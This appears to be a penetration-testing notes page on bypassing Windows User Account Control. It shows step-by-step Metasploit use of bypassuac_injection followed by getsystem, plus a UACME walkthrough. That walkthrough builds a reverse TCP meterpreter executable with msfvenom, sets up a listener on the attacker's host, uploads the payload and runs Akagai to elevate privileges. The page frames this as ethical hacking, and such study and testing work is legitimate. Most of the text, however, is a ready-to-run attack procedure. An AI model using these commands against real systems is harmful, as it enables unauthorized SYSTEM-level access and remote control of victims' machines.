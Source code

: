 **User Account Control** (UAC) is a security feature in Microsoft Windows designed to prevent unauthorized changes to the operating system. It ensures that any changes requiring administrative privileges must be explicitly approved by the user. UAC helps protect against malware and unauthorized software installations.

![](uac_example.png)


## UAC Enable Verification
You can use the `reg query` command to check the value of the registry key related to UAC:

```bash
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
```

- If the value of `EnableLUA` is `1`, UAC is enabled.
- If the value of `EnableLUA` is `0`, UAC is disabled.

## BypassUAC_injection (Metasploit)
1. **Set up the module**: To use the `bypassuac_injection` module, start by selecting it within Metasploit:
```bash
msf6 > use exploit/windows/local/bypassuac_injection
```

2. **Set required options**: Once the module is selected, set the required options:

- `SESSION`: The session ID of the compromised machine.
- `PAYLOAD`: The payload you want to deliver (e.g., `windows/x64/meterpreter/reverse_tcp`).
- `TARGET`: The target architecture used by the victim machine.
- `LHOST`: The attacker's local host IP address.
- `LPORT`: The attacker's listening port for the reverse connection.

3. **Exploit the system**:

```bash
run
```

4. **Escalate privileges**: After running the exploit a meterpreter session will spawn with the privileges of the original session. To gain the Authority system privileges is necessary to execute the following command on the meterpreter session:

```bash
getsystem
```

## UACMe

[UACME](https://github.com/hfiref0x/UACME) is a tool designed to bypass User Account Control (UAC) prompts on Windows operating systems. It leverages vulnerabilities in the UAC mechanism to elevate privileges without requiring user interaction. UACME is primarily used for **post-exploitation** activities to escalate privileges during penetration testing or ethical hacking exercises.

#### Usage
1. **Select the key**

In the **Usage** section of the ReadMe file, there is a dropdown menu called **"keys"** where you can select the best option depending on your specific scenario. This allows you to tailor the tool's functionality to your needs, making it more adaptable for different environments or exploitation techniques.

2. **Create a payload file**

Using **msfvenom**, you can generate a reverse shell payload file. Here's a basic example to create a reverse TCP shell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > reverse_shell.exe
```

3. **Set a listener**
Set up a listener to wait for incoming connections from the reverse shell. In Metasploit, this can be done using the following command:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set LPORT <Your_Port>
exploit
```

4. **Upload the akagai and reverse shell file**

You will need to upload both the Akagai executable and the reverse shell payload to the target machine. This can be done via various methods like web shell, SMB, or other file transfer techniques, depending on the access you've gained.


6. **Execute the exploit**

Once everything is set up, execute the exploit with the following command:

```
.\Akagai.exe <key> <full_path_to_rev_shell>
```